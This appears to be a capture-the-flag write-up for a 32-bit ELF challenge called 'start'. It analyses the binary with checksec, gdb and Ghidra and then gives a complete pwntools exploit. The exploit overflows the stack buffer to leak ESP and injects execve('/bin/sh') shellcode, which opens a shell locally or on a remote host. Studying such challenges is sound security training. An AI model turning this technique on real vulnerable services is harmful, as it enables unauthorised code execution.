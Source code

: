 ## Analyze
Start by analyzing the binary

file
```bash
./start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
checksec
```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
Points got :-
1. 32 bit binary
2. Intel 80386 architecture
3. No protection at all
Next we try running the code
```bash
└─$ ./start
Let's start the CTF:aaaaaaaaa
```
```
└─$ ./start 
Let's start the CTF:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
Buffer overflow occur
Lets check it in gdb

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
pwndbg> 
```
seems like not a ret2win chal
so we check for every functions, and only function \_start we should analyze
from gdb :-
```bash
pwndbg> disass _start
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   esp
   0x08048061 <+1>:	push   0x804809d
   0x08048066 <+6>:	xor    eax,eax
   0x08048068 <+8>:	xor    ebx,ebx
   0x0804806a <+10>:	xor    ecx,ecx
   0x0804806c <+12>:	xor    edx,edx
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
   0x08048087 <+39>:	mov    ecx,esp
   0x08048089 <+41>:	mov    dl,0x14
   0x0804808b <+43>:	mov    bl,0x1
   0x0804808d <+45>:	mov    al,0x4
   0x0804808f <+47>:	int    0x80
   0x08048091 <+49>:	xor    ebx,ebx
   0x08048093 <+51>:	mov    dl,0x3c
   0x08048095 <+53>:	mov    al,0x3
   0x08048097 <+55>:	int    0x80
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret
End of assembler dump.
```
from ghidra :-
```ghidra
void processEntry entry(void)

{
    code *pcVar1;
    
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)(0x74732073,0x20747261,0x20656874,0x3a465443,_exit,&stack0x00000000);
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)();
    return;
}
```
the code will
	Line 01: Stores the esp value at this point on the stack.
	Line 02: Stores the start address of \_exit.
	Lines 03-06: Set eax, ebx, ecx, edx to 0x00.
	Lines 07-11: Store the string "Let's start the CTF:" on the stack
	Line 12: Store the current esp value in ecx
	Line 13: Store 0x14 in edx Line
	14: Store in ebx Store 0x01
	Line 15: Store 0x04 in eax
	Line 16: Execute call instruction. What to do and how to do it is determined by the values ​​in the registers. Here,
	write 20 bytes (edx is 0x14 = 20) to the standard output (ebx is 0x01) and a character string with ecx (same value as esp from line 12) as the starting address (eax is 0x04). In other words, write "Let's start CTF:" to standard output.
	Line 17: Set ebx to 0x00.
	Line 18: Store 0x3c in edx.
	Line 19: Store 0x03 in eax.
	Line 20: Execute the call instruction. Here, it means reading 60 bytes (edx is 0x3c=60) from standard input (ebx is 0x00) (eax is 0x03).
	Line 21: Add 0x14 to esp.
	Line 22: ret

## Exploit

1. Overflow the file
2. Make it return to Line 12 where we will get the address of ESP
3. The file will ask us for input again
4. Overflow + ESP address + shellcode

exploit.py
```python 3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './start'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
def leak_esp(r):
    address_1 = p32(0x08048087)           
    payload = flat('A'*20 , address_1)
    print(r.recvuntil('CTF:'))
    r.send(payload)
    esp = u32(r.recv()[:4])
    print("Address of ESP: ", hex(esp))
    return esp

io = start()



padding = 20
esp = leak_esp(io)
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline( payload)

# Receive the flag
io.interactive()
```
